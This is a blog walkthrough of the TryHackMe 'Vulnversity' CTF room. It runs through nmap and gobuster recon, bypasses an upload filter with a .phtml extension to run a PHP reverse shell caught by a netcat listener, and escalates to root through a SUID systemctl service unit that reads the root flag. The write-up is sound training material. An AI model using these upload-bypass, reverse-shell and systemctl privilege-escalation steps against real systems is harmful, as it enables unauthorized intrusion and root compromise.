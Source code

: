 ```yaml
---
title: TryHackMe - Vulnversity
layout: post
categories:
- TryHackMe
tag:
- recon,
- privesc,
- webappsec
image: assets/img/vulnversity.png
image_alt: vulversity
---
```


This is an easy CTF. Let's start.

<br>

## 1. Deploy the machine 

Connect to our network and deploy this machine. If you are unsure on how to get connected, complete the OpenVPN room first.

<br>

---

<br>

## 2. Reconnaissance  

Now that you’ve found the code for the backdoor, it’s time to analyse it.
Gather information about this machine using a network scanning tool called `nmap`.

<br>

### 2.1 Scan the box, how many ports are open?

Let's find out how many ports are open on the target with a simple `nmap` scan.

```
$ nmap -sSV 10.10.56.244
```

![nmap](/assets/img/tryhackme/vulnversity/nmap.png)

**Answer: `6`**

<br>

### 2.2 What version of the squid proxy is running on the machine?

As you may have noticed from the previous question, squid proxy is http-proxy running on port `3128/tcp`.

**Answer: `3.5.12`**

<br>

### 2.3 How many ports will nmap scan if the flag -p-400 was used?

**Answer: `400`**

<br>

### 2.4 Using the nmap flag -n what will it not resolve?

**Answer: `DNS`**

<br>

### 2.5 What is the most likely operating system this machine is running?

**Answer: `ubuntu`**

<br>

### 2.5 What port is the web server running on?

**Answer: `3333`**

<br>

---

<br>

## 3. Locating directories using GoBuster 

Using a fast directory discovery tool called GoBuster you will locate a directory that you can use to upload a shell to.

<br>

### 3.1 What is the directory that has an upload form page?

Now, let's do a directory scan using `gobuster`.

```
`$ gobuster dir -u http://10.10.56.244:3333/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/img/tryhackme/vulnversity/gobuster.png)

**Answer: `/internal/`**

<br>

---

<br>

## 4. Compromise the webserver   

Now you have found a form to upload files, we can leverage this to upload and execute our payload that will lead to compromising the web server.

<br>

### 4.1 What common file type, which you'd want to upload to exploit the server, is blocked? Try a couple to find out.

I downloaded and tried pentest monkey's php-reverse-shell.php file, but it didn't upload.
[php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

![error](/assets/img/tryhackme/vulnversity/error.png)

**Answer: `.php`**

<br>

### 4.2 Run this attack, what extension is allowed?

Since the .php extension does not work here, we need to try other php extensions instead. If you want, you can do it manually or by using burp suite as tryhackme explained, I don't see the need to use burp suite for now. 

![success](/assets/img/tryhackme/vulnversity/success.png)

**Answer: `.phtml`**

<br>

### 4.2 What is the name of the user who manages the webserver?

Now we edit the reverse shell (we adjust the ip and port parts according to ourselves) and upload it. 

![set](/assets/img/tryhackme/vulnversity/set.png)

Then we open a listener for the port we wrote in the shell using `netcat`.

```
$ nc -nlvp 4444
```

Then we visit the shell that we uploaded to the target site. 

```
$ http://10.10.56.244:3333/internal/uploads/shell.phtml
```

And we are inside.

![in](/assets/img/tryhackme/vulnversity/in.png)

Now, to find out who the user is, we go to the `/home` directory and list the files using the `ls -la` command. There should be a folder with the user's name here.

![bill](/assets/img/tryhackme/vulnversity/bill.png)

**Answer: `bill`**

<br>

### 4.3 What is the user flag?

Now we open the `user.txt` owned by the user, Bill.

```
$ cat /home/bill/user.txt
```

![user-flag](/assets/img/tryhackme/vulnversity/user-flag.png)

<br>

---

<br>

## 4. Privilege Escalation    

Now you have compromised this machine, we are going to escalate our privileges and become the superuser (root).

<br>

### 4.1 On the system, search for all SUID files. What file stands out?

_Hint: Use the command: find / -user root -perm -4000 -print 2>/dev/null_

![find](/assets/img/tryhackme/vulnversity/find.png)

**Answer: `/bin/systemctl`**

<br>

### 4.2 Become root and get the last flag (/root/root.txt).

_Hint: /bin/systemctl_

Let's enter the following codes one by one to raise privileges and access root.txt.

```
$ cat > /tmp/flag.service << EOF
> [Service]
> ExecStart=/bin/bash -c "cat /root/root.txt > /tmp/flag.txt"
> [Install]
> WantedBy=multi-user.target
> EOF
$ /bin/systemctl link /tmp/flag.service
$ /bin/systemctl enable --now /tmp/flag.service
$ cat /tmp/flag.txt 
```

![root-flag](/assets/img/tryhackme/vulnversity/root-flag.png)

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
